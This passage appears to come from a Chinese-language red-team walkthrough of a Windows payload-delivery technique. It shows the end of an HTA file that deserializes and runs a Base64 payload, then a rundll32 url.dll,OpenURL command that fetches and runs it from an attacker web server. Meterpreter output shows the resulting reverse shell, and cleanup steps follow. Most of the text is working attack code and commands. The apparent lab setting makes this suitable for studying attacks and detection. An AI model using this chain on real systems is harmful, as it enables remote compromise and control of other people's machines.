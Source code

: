 ```hta
al.Add fmt.SurrogateSelector

Set d = fmt.Deserialize_2(Base64ToStream(s))
Set o = d.DynamicInvoke(al.ToArray()).CreateInstance(entry_class)
o.flame binary,code
End Sub

SetVersion
On Error Resume Next
Run
If Err.Number <>0 Then
Debug Err.Description
Err.Clear
End If
self.close
</script>
```

- 保存为`shell.hta`，托管于攻击机Web服务器（如`http://192.168.126.146/shell.hta`）。

#### 4. 靶机执行Payload

**命令**：
```cmd
rundll32.exe url.dll,OpenURL http://192.168.126.146/shell.hta
```

**结果**：
- `rundll32.exe`触发`url.dll`的`OpenURL`，下载并运行`shell.hta`。
- `mshta.exe`执行HTA文件，解码并运行Payload。
- 攻击机接收Meterpreter会话：
  ```
  [*] Started reverse TCP handler on 192.168.126.146:4444
  [*] Sending stage (180291 bytes) to 192.168.126.149
  [*] Meterpreter session 2 opened (192.168.126.146:4444 -> 192.168.126.149:49187) at 2023-10-01 10:00:00 +0800
  meterpreter > getuid
  Server username: 12306Br0-PC\12306Br0
  ```

#### 5. 清理

**靶机**：
```cmd
taskkill /IM mshta.exe /F
taskkill /IM rundll32.exe /F
```

**攻击机**：
- 关闭Metasploit会话：`exit`
- 移除`shell.hta`和`shell.bin`。

## 测试留痕
